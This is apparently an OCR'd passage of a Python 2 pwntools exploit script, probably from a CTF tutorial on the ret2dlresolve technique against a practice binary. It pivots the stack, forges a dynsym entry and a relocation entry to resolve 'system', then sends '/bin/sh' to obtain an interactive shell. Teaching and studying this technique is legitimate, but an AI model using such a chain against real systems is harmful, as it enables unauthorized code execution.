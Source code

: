 ```python
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

### making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
## plus 10 since the size of Elf32_Sym is 16.
st_name = fake_sym_addr + 0x10 - dynstr
fake_write_sym = flat([st_name, 0, 0, 0x12])

### making fake write relocation

## making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(base_stage + 82)
rop.raw('bbbb')
rop.raw('bbbb')
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('system\x00')  # there must be a \x00 to mark the end of string
rop.raw('a' * (80 - len(rop.chain())))
print rop.dump()
print len(rop.chain())
rop.raw(sh + '\x00')
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()
```
